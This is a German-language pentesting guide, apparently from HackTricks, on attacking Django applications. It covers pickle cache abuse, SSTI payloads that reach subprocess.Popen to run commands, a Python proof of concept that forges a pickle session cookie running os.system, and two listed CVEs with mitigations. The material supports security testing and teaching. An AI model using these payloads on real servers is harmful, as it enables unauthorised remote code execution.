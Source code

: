 # Django

{{#include ../../banners/hacktricks-training.md}}

## Cache-Manipulation zu RCE
Die standardmäßige Cache-Speichermethode von Django sind [Python-Pickles](https://docs.python.org/3/library/pickle.html), was zu RCE führen kann, wenn [nicht vertrauenswürdige Eingaben unpickled werden](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Wenn ein Angreifer Schreibzugriff auf den Cache erlangen kann, kann er diese Schwachstelle zu RCE auf dem zugrunde liegenden Server eskalieren**.

Der Django-Cache wird an einem von vier Orten gespeichert: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [Speicher](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [Dateien](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16) oder eine [Datenbank](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Caches, die in einem Redis-Server oder einer Datenbank gespeichert sind, sind die wahrscheinlichsten Angriffsvektoren (Redis-Injection und SQL-Injection), aber ein Angreifer könnte auch in der Lage sein, einen dateibasierten Cache zu nutzen, um einen beliebigen Schreibvorgang in RCE umzuwandeln. Die Maintainer haben dies als kein Problem eingestuft. Es ist wichtig zu beachten, dass der Cache-Dateiordner, der SQL-Tabellenname und die Details des Redis-Servers je nach Implementierung variieren.

Dieser HackerOne-Bericht bietet ein großartiges, reproduzierbares Beispiel für die Ausnutzung des Django-Caches, der in einer SQLite-Datenbank gespeichert ist: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
Die Django Template Language (DTL) ist **turing-vollständig**. Wenn vom Benutzer bereitgestellte Daten als *Template-String* gerendert werden (zum Beispiel durch Aufruf von `Template(user_input).render()` oder wenn `|safe`/`format_html()` das automatische Escaping entfernt), kann ein Angreifer vollständige SSTI → RCE erreichen.

### Erkennung
1. Suchen Sie nach dynamischen Aufrufen von `Template()` / `Engine.from_string()` / `render_to_string()`, die *irgendwelche* unsanierten Anforderungsdaten enthalten.
2. Senden Sie eine zeitbasierte oder arithmetische Payload:
```django
{{7*7}}
```
Wenn die gerenderte Ausgabe `49` enthält, wird die Eingabe vom Template-Engine kompiliert.

### Primitive zu RCE
Django blockiert den direkten Zugriff auf `__import__`, aber der Python-Objektgraph ist erreichbar:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Finde den Index von `subprocess.Popen` (≈400–500 je nach Python-Build) und führe beliebige Befehle aus:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Ein sicherer universeller Gadget ist, bis `cls.__name__ == 'Popen'` zu iterieren.

Der gleiche Gadget funktioniert für **Debug Toolbar** oder **Django-CMS** Template-Rendering-Funktionen, die Benutzereingaben falsch behandeln.

---

## Pickle-Backed Session Cookie RCE
Wenn die Einstellung `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` aktiviert ist (oder ein benutzerdefinierter Serializer, der Pickle deserialisiert), *entschlüsselt und entpickelt* Django das Sitzungscookie **bevor** irgendein View-Code aufgerufen wird. Daher reicht es aus, einen gültigen Signaturschlüssel (den Projekt `SECRET_KEY` standardmäßig) zu besitzen, um sofortige Remote-Code-Ausführung zu ermöglichen.

### Exploit-Anforderungen
* Der Server verwendet `PickleSerializer`.
* Der Angreifer kennt / kann `settings.SECRET_KEY` erraten (Lecks über GitHub, `.env`, Fehlerseiten usw.).

### Proof-of-Concept
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Senden Sie das resultierende Cookie, und die Payload wird mit den Berechtigungen des WSGI-Workers ausgeführt.

**Minderungen**: Behalten Sie den Standard `JSONSerializer`, rotieren Sie `SECRET_KEY` und konfigurieren Sie `SESSION_COOKIE_HTTPONLY`.

---

## Aktuelle (2023-2025) Hochrisiko-Django-CVEs, die Pentester überprüfen sollten
* **CVE-2025-48432** – *Protokollinjektion über nicht escaped `request.path`* (behoben am 4. Juni 2025). Ermöglicht Angreifern, Zeilenumbrüche/ANSI-Codes in Protokolldateien zu schmuggeln und die nachgelagerte Protokollanalyse zu vergiften. Patch-Level ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Kritische SQL-Injektion* in `QuerySet.values()/values_list()` auf `JSONField` (CVSS 9.8). Erstellen Sie JSON-Schlüssel, um aus der Anführungszeichen zu brechen und beliebige SQL auszuführen. Behoben in 4.2.15 / 5.0.8.

Fingerabdruck immer die genaue Framework-Version über die `X-Frame-Options`-Fehlerseite oder den Hash von `/static/admin/css/base.css` und testen Sie die oben genannten, wo anwendbar.

---

## Referenzen
* Django-Sicherheitsfreigabe – "Django 5.2.2, 5.1.10, 4.2.22 behebt CVE-2025-48432" – 4. Juni 2025.
* OP-Innovate: "Django veröffentlicht Sicherheitsupdates zur Behebung der SQL-Injektionsanfälligkeit CVE-2024-42005" – 11. Aug. 2024.

{{#include ../../banners/hacktricks-training.md}}
